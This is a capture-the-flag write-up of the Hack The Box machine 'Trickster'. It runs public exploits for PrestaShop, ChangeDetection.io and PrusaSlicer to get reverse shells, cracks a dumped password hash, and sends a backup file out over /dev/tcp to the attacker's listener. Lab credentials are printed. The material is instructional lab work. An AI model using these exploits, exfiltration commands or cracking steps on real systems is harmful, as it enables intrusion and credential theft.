

Machine Info:
Trickster is a medium-difficulty Linux machine featuring a PrestaShop application vulnerable to CVE-2024-34716.Exploiting this vulnerability grants access to the remote server as the `www-data` user. Further enumeration reveals PrestaShop configuration files containing database credentials, allowing us to dump and crack password hashes to obtain the password for user `james`. We can then SSH into the server as `james`. A Docker container running ChangeDetection.io is also present, vulnerable to CVE-2024-32651, which can be exploited to gain a root shell inside the container. Inside the container, backup files from ChangeDetection.io reveal the password for user `adam`, which allows SSH access as `adam`. Finally, privilege escalation to root is achieved by exploiting CVE-2023-47268 in the PrusaSlicer tool.

Enumeration:
Nmap:
nmap -sC -sV 10.129.231.135 -oA nmap/Trickster
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-01 17:15 IST
Nmap scan report for 10.129.231.135
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
|_ 256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://trickster.htb/
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.83 secondsI started the enumeration with an Nmap scan using -sC for default scripts and -sV for version detection. The target machine, 10.129.231.135, was found to be online with two open ports: 22 (SSH) and 80 (HTTP). The SSH service is running OpenSSH 8.9p1 on Ubuntu, which could be useful for later exploitation if credentials are obtained. The web server is Apache 2.4.52, and the HTTP title suggests a redirect to http://trickster.htb/, indicating a possible virtual host configuration. This hints that adding the domain to /etc/hosts might be necessary for further web enumeration. The next step will involve exploring the website for potential vulnerabilities and gathering more information.

Upon navigating the website, I discovered that clicking on the Shop navigation redirects to shop.trickster.htb.
The shop appears to be built using PrestaShop. I researched vulnerabilities related to this platform but couldn't find any that could be directly exploited.
PrestaShop is an open-source e-commerce web application designed to offer a seamless shopping cart experience for both merchants and customers. It is built with PHP, highly customizable, and supports major payment services. Additionally, it is translated into multiple languages, localized for various countries, and features a fully responsive design for both the front and back office.
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://shop.trickster.htb/FUZZ -fs 283
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://shop.trickster.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 283
________________________________________________
.git [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 40ms]
While fuzzing shop.trickster.htb, I discovered the presence of a .git directory, which indicates that the site's Git repository might be accessible. This could potentially expose source code, configuration files, or sensitive credentials if not properly secured. The next step will be to enumerate the .git directory further to check for leaked information using tools like git-dumper or GitTools.
To further investigate the exposed .git directory, I used GitHack, a tool designed to exploit .git folder disclosures. GitHack allows for the reconstruction of the source code while preserving the original directory structure. This can potentially reveal sensitive information such as configuration files, credentials, or even database details. Extracting and analyzing the recovered files could provide valuable insights for further exploitation.
┌──(deepak㉿kali)-[~/HTB_Machines/Medium_linux/Trickster/shop.trickster.htb]
└─$ python3 /opt/GitHack/GitHack.py http://shop.trickster.htb/.git/
<SNIP>
[OK] admin634ewutrx1jgitlooaj/themes/new-theme/template/layout.tpl
[OK] admin634ewutrx1jgitlooaj/themes/new-theme/template/light_display_layout.tpl
[OK] admin634ewutrx1jgitlooaj/themes/new-theme/template/modal.tpl
[OK] admin634ewutrx1jgitlooaj/themes/new-theme/tsconfig.json
[OK] admin634ewutrx1jgitlooaj/themes/new-theme/template/page_header_toolbar.tpl
[OK] autoload.php
[OK] error500.html
[OK] index.php
[OK] init.php
┌──(deepak㉿kali)-[~/HTB_Machines/Medium_linux/Trickster/shop.trickster.htb]
└─$ ls -la
total 228
drwxrwxr-x 3 deepak deepak 4096 Feb 1 18:02 .
drwxrwxr-x 4 deepak deepak 4096 Feb 1 18:02 ..
drwxrwxr-x 8 deepak deepak 4096 Feb 1 18:02 admin634ewutrx1jgitlooaj
-rw-rw-r-- 1 deepak deepak 1305 Feb 1 18:02 autoload.php
-rw-rw-r-- 1 deepak deepak 2506 Feb 1 18:02 error500.html
-rw-rw-r-- 1 deepak deepak 1169 Feb 1 18:02 index.php
-rw-rw-r-- 1 deepak deepak 1256 Feb 1 18:02 init.php
-rw-rw-r-- 1 deepak deepak 522 Feb 1 18:02 Install_PrestaShop.html
-rw-rw-r-- 1 deepak deepak 5054 Feb 1 18:02 INSTALL.txt
-rw-rw-r-- 1 deepak deepak 183862 Feb 1 18:02 LICENSES
-rw-rw-r-- 1 deepak deepak 863 Feb 1 18:02 Makefile
-rw-rw-r-- 1 deepak deepak 1538 Feb 1 18:02 .php-cs-fixer.dist.phpReading a few lines on the code and /admin634ewutrx1jgitlooaj/ looks like the admin directory.
Entering http://shop.trickster.htb/admin634ewutrx1jgitlooaj/ gives the admin login page. Version is 8.1.5.
CVE-2024-34716:
CVE-2024-34716 is a Cross-Site Scripting (XSS) vulnerability affecting PrestaShop 8.1.5. An attacker can craft a malicious PNG file that, when viewed, executes JavaScript code to steal the victim's cookies. These stolen cookies can then be used to upload a malicious .zip file and download a theme, ultimately leading to Remote Code Execution (RCE). A public proof-of-concept (PoC) is available from the researcher who discovered the vulnerability, along with an improved version of the original exploit. For more details on the attack and exploitation process, refer to the research blog.
The exploit for CVE-2024-34716 is publicly available on GitHub:
python exploit.py --url "http://shop.trickster.htb" --email d3p4k@trickster.htb --local-ip 10.10.14.38 --admin-path "admin634ewutrx1jgitlooaj"
[X] Starting exploit with:
Url: http://shop.trickster.htb
Email: d3p4k@trickster.htb
Local IP: 10.10.14.38
Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 5000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.129.231.135 - - [01/Feb/2025 18:22:56] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Ncat: Connection from 10.129.231.135:40740.
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
12:53:01 up 1:15, 0 users, load average: 0.08, 0.19, 0.21
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@trickster:/$ ^Z
zsh: suspended python exploit.py --url "http://shop.trickster.htb" --email --local-ip
┌──(deepak㉿kali)-[~/HTB_Machines/Medium_linux/Trickster/CVE-2024-34716]
└─$ stty raw -echo; fg
[1] + continued python exploit.py --url "http://shop.trickster.htb" --email --local-ip
www-data@trickster:/$
After obtaining a www-data shell, I searched for configuration files and found database credentials in prestashop/app/config/parameters.php. This file typically stores sensitive information, including database connection details, which could be leveraged for further exploitation, such as privilege escalation or data extraction.
www-data@trickster:~/prestashop/app/config$ cat parameters.php
<SNIP>
'database_host' => '127.0.0.1',
'database_port' => '',
'database_name' => 'prestashop',
'database_user' => 'ps_user',
'database_password' => 'prest@shop_o',
<SNIP>After logging into MySQL, I found the password hash of james in the ps_employee table.
MariaDB [prestashop]> select * from ps_employee;
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| id_employee | id_profile | id_lang | lastname | firstname | email | passwd | last_passwd_gen | stats_date_from | stats_date_to | stats_compare_from | stats_compare_to | stats_compare_option | preselect_date_range | bo_color | bo_theme | bo_css | default_tab | bo_width | bo_menu | active | optin | id_last_order | id_last_customer_message | id_last_customer | last_connection_date | reset_password_token | reset_password_validity | has_enabled_gravatar |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| 1 | 1 | 1 | Store | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C | 2024-05-25 13:10:20 | 2024-04-25 | 2024-05-25 | 0000-00-00 | 0000-00-00 | 1 | NULL | NULL | default | theme.css | 1 | 0 | 1 | 1 | NULL | 5 | 0 | 0 | 2025-02-01 | NULL | 0000-00-00 00:00:00 | 0 |
| 2 | 2 | 0 | james | james | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm | 2024-09-09 13:22:42 | NULL | NULL | NULL | NULL | 1 | NULL | NULL | NULL | NULL | 0 | 0 | 1 | 0 | NULL | 0 | 0 | 0 | NULL | NULL | NULL | 0 |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
2 rows in set (0.001 sec)
Use Hashcat to crack the James hash.
hashcat -m 3200 -a 0 james_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6600U CPU @ 2.60GHz, 2845/5755 MB (1024 MB allocatable), 4MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
Watchdog: Temperature abort trigger set to 90c
Initializing backend runtime for device #1. Please be patient...
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6y...yunCmm
Time.Started.....: Sat Feb 1 18:42:30 2025 (37 secs)
Time.Estimated...: Sat Feb 1 18:43:07 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 1012 H/s (6.15ms) @ Accel:4 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 37056/14344385 (0.26%)
Rejected.........: 0/37056 (0.00%)
Restore.Point....: 37040/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:8-16
Candidate.Engine.: Device Generator
Candidates.#1....: alyssa7 -> Yankees
Hardware.Mon.#1..: Temp: 76c Util: 98%
Started: Sat Feb 1 18:41:34 2025
Stopped: Sat Feb 1 18:43:09 2025
After cracking the hash, use it to log in via SSH and retrieve the user.txt file.
ssh james@trickster.htb
The authenticity of host 'trickster.htb (10.129.231.135)' can't be established.
ED25519 key fingerprint is SHA256:SZyh4Oq8EYrDd5T2R0ThbtNWVAlQWg+Gp7XwsR6zq7o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'trickster.htb' (ED25519) to the list of known hosts.
james@trickster.htb's password:
Last login: Thu Sep 26 11:13:01 2024 from 10.10.14.41
james@trickster:~$ ls
user.txtLateral-Privilege Escalation:
While running ifconfig, I discovered that Docker is running on the machine with the IP address 172.17.0.1. This could provide additional avenues for exploration, such as container access or potential vulnerabilities within the Docker environment.
james@trickster:/tmp$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 172.17.0.1 netmask 255.255.0.0 broadcast 172.17.255.255
ether 02:42:79:6b:be:c2 txqueuelen 0 (Ethernet)
RX packets 304 bytes 13792 (13.7 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 994 bytes 48780 (48.7 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.129.231.135 netmask 255.255.0.0 broadcast 10.129.255.255
ether 00:50:56:b9:85:de txqueuelen 1000 (Ethernet)
RX packets 48776 bytes 19038814 (19.0 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 40736 bytes 29885559 (29.8 MB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
loop txqueuelen 1000 (Local Loopback)
RX packets 304202 bytes 481522176 (481.5 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 304202 bytes 481522176 (481.5 MB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
veth0ed9ac6: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
ether 82:0e:62:df:eb:a1 txqueuelen 0 (Ethernet)
RX packets 230 bytes 12620 (12.6 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 984 bytes 48360 (48.3 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
After running an Nmap scan on the Docker IP 172.17.0.1, I discovered that port 5000 is open. This could indicate a service running on that port, possibly a web application or API. The next step will be to investigate this service further for any potential vulnerabilities or useful information.
james@trickster:~$ ./nmap -p- 172.17.0.2
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-10-14 18:42 UTC
Unable to find nmap-services! Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00046s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE
5000/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 36.69 secondsI set up port forwarding for the Docker container to access it on the localhost.
ssh -L 5000:172.17.0.2:5000 james@trickster.htb
james@trickster:~$Port 5000 is running ChangeDetection.io, which I accessed through my machine. The service provides notifications when a monitored site is updated, sending alerts via email, notifications, or apps like Telegram and WhatsApp. The webpage prompts for a login to interact with the service
Using James Credentials we were able to login
CVE-2024-32651:
Using the exploit available at CVE-2024-32651, we were able to gain root access to the Docker container. This vulnerability allowed us to escalate privileges and gain full control over the Docker environment.
python3 cve-2024-32651.py --url http://localhost:5000/ --ip 10.10.14.38 --port 9001 --password "alwaysandforever"
Obtained CSRF token: IjhjMjRjNWY2MzBiMWU5YTk3NzQwOWVjMDc5ZGU4YjZkNDU0Njk5YjMi.Z54rlA.aXQb7gaZ6u5jAjTjYHfqqtGaKto
Logging in...
[+] Login succesful
Redirect URL: /edit/0745c8ca-2f7a-4de5-9b0b-7f288070e106?unpause_on_save=1
Final request made.
Spawning shell...
[+] Trying to bind to :: on port 9001: Done
[+] Waiting for connections on :::9001: Got connection from ::ffff:10.129.231.135 on port 55206
Listening on port 9001...
Connection received!
[*] Switching to interactive mode
root@a4b9a36ae7ff:/app# $
In the Docker root shell, I found a backup directory located at /datastore/Backups, which contains two zip files:
changedetection-backup-20240830194841.zip
changedetection-backup-20240830202524.zip
I transferred both zip files to the attacker machine for further analysis and potential exploitation
root@a4b9a36ae7ff:/datastore/Backups# $ ls
ls
changedetection-backup-20240830194841.zip
changedetection-backup-20240830202524.zip
root@a4b9a36ae7ff:/datastore/Backups#
root@a4b9a36ae7ff:/datastore/Backups# $ cat changedetection-backup-20240830194841.zip > /dev/tcp/10.10.14.38/7777
<ckup-20240830194841.zip > /dev/tcp/10.10.14.38/7777
netcat Listener
nc -lvnp 7777 > changedetection.zip
listening on [any] 7777 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.231.135] 52916
I unzipped the changedetection.zip file, which extracted a directory named b4a8b52d-651b-44bc-bbc6-f9e8c6590103/ containing several files:
- f04f0732f120c0cc84a993ad99decb2c.txt.br
- history.txt
- secret.txt
- url-list.txt
- url-list-with-tags.txt
- url-watches.json
These files could contain valuable information related to the monitored URLs, history of changes, and potentially sensitive data such as credentials or configurations. The next step is to analyze these files for useful information.
<unzip changedetection.zip
Archive: changedetection.zip
creating: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/
extracting: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/f04f0732f120c0cc84a993ad99decb2c.txt.br
extracting: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/history.txt
inflating: secret.txt
inflating: url-list.txt
inflating: url-list-with-tags.txt
inflating: url-watches.json I used brotli to decompress the f04f0732f120c0cc84a993ad99decb2c.txt.br file, which resulted in the f04f0732f120c0cc84a993ad99decb2c.txt file. Upon reviewing its contents, I found potentially useful information related to the backup. This file, along with the other extracted files, could provide insight into the system's configuration or sensitive data that may aid in further exploitation.We get adam Database credentials
cat f04f0732f120c0cc84a993ad99decb2c.txt
<SNIP>
'database_host' => '127.0.0.1' ,
'database_port' => '' ,
'database_name' => 'prestashop' ,
'database_user' => 'adam' ,
'database_password' => 'adam_admin992' ,
<SNIP>Privilege Escalation:
Using the Database credentials of Adam to login via ssh.
After logging in via SSH as adam on trickster.htb, I ran sudo -l to check for any sudo privileges. The output revealed that adam can execute the command /opt/PrusaSlicer/prusaslicer as root without requiring a password. This provides an opportunity for privilege escalation, as we can potentially exploit this command to gain root access.
ssh adam@trickster.htb
adam@trickster.htb's password:
adam@trickster:~$ sudo -l
Matching Defaults entries for adam on trickster:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User adam may run the following commands on trickster:
(ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
We can use the PrusaSlicer exploit to escalate privileges and gain root access on the target machine. The exploit leverages the fact that adam can run /opt/PrusaSlicer/prusaslicer with sudo privileges, allowing us to bypass the restrictions and execute arbitrary commands with root privileges. By exploiting this, we can escalate from a normal user to root and further compromise the system.
sudo /opt/PrusaSlicer/prusaslicer -s evil.3mf
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:
EXPLOIT
Low bed adhesion
Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Generating skirt and brim
90 => Exporting G-code to EXPLOIT_0.3mm_{printing_filament_types}_MK4_{print_time}.gcode
After setting up a Netcat listener, we were able to receive a reverse shell and successfully escalate to root. This gave us full control over the system, allowing us to perform any further actions or exfiltrate data as needed.
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.231.135] 44016
root@trickster:/tmp# cd /root
cd /root
root@trickster:~# ls
ls
root.txt
Appreciation
If my write-up helped you, I‚Äôd really appreciate it if you could show your support! üôè Also, if you like my content, please consider giving me respect on HTB‚Äîyour support truly means a lot! üíö‚ú®


Found a Mistake?
If you notice any errors or have feedback, feel free to email me at ashwin200323@gmail.com. Thanks for your help!